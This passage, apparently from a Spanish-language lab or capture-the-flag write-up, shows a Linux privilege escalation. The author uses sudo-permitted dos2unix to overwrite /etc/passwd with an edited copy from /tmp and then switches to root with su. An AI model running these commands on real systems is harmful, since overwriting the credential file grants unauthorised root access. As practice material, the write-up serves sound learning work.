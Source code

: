 ![Pasted image 20241105210916](https://github.com/user-attachments/assets/1d27b164-dc4a-46e6-92fc-0c4d1f472b23)

Entonces modificamos el archivo que acabamos de crear

~~~ bash
nano /tmp/passwd
~~~

![Pasted image 20241105211157](https://github.com/user-attachments/assets/add6ec30-8773-4b17-b01f-aeb210dffcd9)

## Root time

Ahora preparamos el entorno para usar ambos archivos en nuestra escalada de privilegios

~~~ bash
passwd_new=/tmp/passwd
passwd_old=/etc/passwd
~~~

![Pasted image 20241105211934](https://github.com/user-attachments/assets/c57d012f-d38e-4faf-9599-582a59cf7058)


Ejecutamos `dos2unix` con `sudo` y usando ambos archivos

~~~ bash
sudo /usr/bin/dos2unix -f -n "$passwd_new" "$passwd_old"
~~~

![Pasted image 20241105211802](https://github.com/user-attachments/assets/7740535d-4cb9-4ebe-8a36-43eb738d5c20)


Finalmente cambiamos al usuario `root` con el comando `su`

~~~ bash
su root
~~~

![Pasted image 20241105211822](https://github.com/user-attachments/assets/261ba158-2d3f-4152-9fa4-9ae0e8abf898)



